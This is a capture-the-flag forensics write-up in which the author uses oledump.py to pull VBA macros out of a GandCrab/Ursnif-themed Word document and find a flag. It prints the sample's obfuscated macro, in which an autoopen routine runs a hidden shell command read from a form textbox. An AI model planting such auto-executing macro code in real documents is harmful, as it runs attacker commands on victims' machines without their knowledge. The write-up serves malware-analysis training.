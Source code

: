 ### 11. <a id="things2" style="text-decoration:none;">Please Click All the Things 2: GandCrab_Ursnif.html [forensics]</a>
The challenge statement: 
> GandCrab/Ursnif are dangerous types of campaigns and malware, macros are usually the entry point,  
> see what you can find, there are two flags in this document. Flag1/2  

> Author: Brandon Martin

- Google: "python extract macros from dotm" => [https://blog.didierstevens.com/programs/oledump-py/](https://blog.didierstevens.com/programs/oledump-py/)  
- Google: "Github oledump" => [https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py](https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py)  

```bash
# change dir to `things` folder
$ cd things

# download the `oledump.py`
wget https://raw.githubusercontent.com/DidierStevens/DidierStevensSuite/master/oledump.py

# analyze the `GandCrab_Ursnif_RITSEC.docm` file
$ python3 oledump.py GandCrab_Ursnif_RITSEC.docm
```
```text
A: word/vbaProject.bin
 A1:       464 'PROJECT'
 A2:        89 'PROJECTwm'
 A3: M     975 'VBA/Module1'
 A4: M    1504 'VBA/Module4'
 A5: m     938 'VBA/ThisDocument'
 A6:      3109 'VBA/_VBA_PROJECT'
 A7:       585 'VBA/dir'
```
```bash
# dump macro at A3
$ python3 oledump.py -s A3 -v GandCrab_Ursnif_RITSEC.docm
```
```vb
Attribute VB_Name = "Module1"
Sub autoopen()
TheDarkSide
End Sub
```
```bash
# dump macro at A4
$ python3 oledump.py -s A4 -v GandCrab_Ursnif_RITSEC.docm
```
```vb
Attribute VB_Name = "Module4"
Function TheDarkSide()
On Error Resume Next
CTF = Array(ElonMusk, StarWars, HelloWorld, Interaction.Shell(CleanString(Chewbacca.TextBox1), 43 - 43), Mars)
  Select Case Research
  Case 235003991
    CompetitorSkillz = That_of_a_Storm_Troopers_Aim_Research_Pending
    Flag = RITSEC{M@CROS}
    PendingResearch = Oct(Date + CStr(TimeStamp + Log(241371097) - PewPew / Hex(13775121)))
  End Select
End Function
```
At least we seem to land on our first flag `RITSEC{M@CROS}`.
